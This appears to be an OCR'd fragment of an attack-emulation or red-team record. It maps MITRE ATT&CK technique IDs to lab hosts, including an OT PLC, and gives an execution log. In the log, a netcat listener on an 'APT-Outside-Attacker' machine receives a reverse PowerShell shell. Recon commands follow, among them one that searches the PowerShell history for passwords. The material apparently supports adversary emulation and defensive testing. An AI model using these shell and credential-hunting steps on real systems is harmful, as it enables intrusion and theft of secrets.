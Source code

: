     - T1033
    - T1083
    - T1552.001, T1083
    - T1021.004
    - T1021.004, T1041
    - T1571, T1021.004
 
    - IT-Linux-PC-1
    - T1033
    - T1082 (x4)
    - T1518 (x2)
    - T1083 (x4)
    - T1087.001, T1201
    - T1046, T1595.001, T1590.005, T1046
    - T1021.004, T1041
    - T1046, T1595.001, T1590.005, T1595.002
    - T1548.003

    - T1033
    - T1083 (x2)
    - T1021.004, T1041
    - T1021.004
    
    - IT-Win-Share
    - T1083
    - T1059.001
    - T1033
    - T1083 (x5)
    - T1021.004, T1041
    - T1105, T1059.001
    - T1046, T1595.001, T1590.005
    - T1046, T1595.001, T1590.005
    - T1571, T1021.004
    
    - OT-Linux-PLC
    - T1083
    - T1021.004, T1041

 
execution log:
```
┌──(debian㉿APT-Outside-Attacker)-[~]
└─$ stty raw -echo; (stty size; cat) | nc -lvnp 8000
listening on [any] 8000 ...

User TestAdmin executes malicious file

-->

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\TestAdmin\Desktop> 

whoami
systeminfo
type %userprofile%
cat (Get-PSReadlineOption).HistorySavePath | sls passw
ls
cd ..
ls
cd .\Documents\
ls
net user
net users
net localgroup
```

[localhost]: PS C:\Users\adm1n\Documents> whoami
[localhost]: PS C:\Users\adm1n\Documents> whoami
